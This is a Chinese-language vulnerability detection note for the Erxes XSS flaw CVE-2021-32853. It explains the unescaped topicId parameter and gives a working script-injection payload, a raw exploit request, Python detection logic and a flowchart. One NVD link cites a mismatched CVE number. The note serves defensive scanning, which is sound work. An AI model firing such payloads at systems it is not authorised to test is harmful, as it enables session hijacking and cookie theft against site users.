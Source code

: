 # Erxes <0.23.0 XSS漏洞（CVE-2021-32853）检测说明

## 漏洞简介

Erxes 0.23.0 之前版本存在跨站脚本（XSS）漏洞，攻击者可通过topicId参数注入恶意脚本，导致在受害者浏览器中执行任意JavaScript代码。

## 影响范围

- 产品：Erxes
- 影响版本：< 0.23.0
- CVE编号：CVE-2021-32853
- 危害等级：Critical

## 漏洞原理

/widgets/knowledgebase接口未对topicId参数进行转义，导致其值被直接插入到script标签内，攻击者可注入闭合标签和恶意脚本，触发XSS。

## 利用方式与攻击流程

1. 攻击者构造带有XSS payload的GET请求，topicId参数注入`</script><script>alert(document.domain)</script>`。
2. 服务器端未对参数进行安全处理，直接插入到页面脚本中。
3. 受害者访问该页面时，恶意脚本在其浏览器中执行。
4. 攻击者可窃取cookie、劫持会话等。

## 探测原理与流程

### 探测请求的构造

```http
GET /widgets/knowledgebase?topicId=%3C%2Fscript%3E%3Cscript%3Ealert(document.domain)%3C%2Fscript%3E HTTP/1.1
Host: target.com
```

- topicId参数注入了闭合标签和alert脚本。

### 预期响应与交互

- 响应体需包含`topic_id: "</script><script>alert(document.domain)</script>"`和`window.erxesEnv`。
- 响应头包含`text/html`。
- HTTP状态码为200。

### 判定逻辑

```python
def is_vulnerable(response):
    if response.status_code == 200 and 'topic_id: "</script><script>alert(document.domain)</script>"' in response.text and 'window.erxesEnv' in response.text and 'text/html' in response.headers.get('content-type', ''):
        return True
    return False
```

### 检测流程Mermaid图

```mermaid
graph TD
    A[发送带XSS payload的GET请求] --> B[接收HTTP响应]
    B --> C{响应体含topic_id和window.erxesEnv?}
    C -- 否 --> F[非漏洞]
    C -- 是 --> D{Content-Type为text/html且状态码为200?}
    D -- 否 --> F
    D -- 是 --> G[判定存在XSS漏洞]
```

## 参考链接

- [GitHub Security Lab Advisory](https://securitylab.github.com/advisories/GHSL-2021-103-erxes/)
- [NVD官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2021-3285)
- [erxes源码分析1](https://github.com/erxes/erxes/blob/f131b49add72032650d483f044d00658908aaf4a/widgets/server/views/widget.ejs#L14)
- [erxes源码分析2](https://github.com/erxes/erxes/blob/f131b49add72032650d483f044d00658908aaf4a/widgets/server/index.ts#L54) 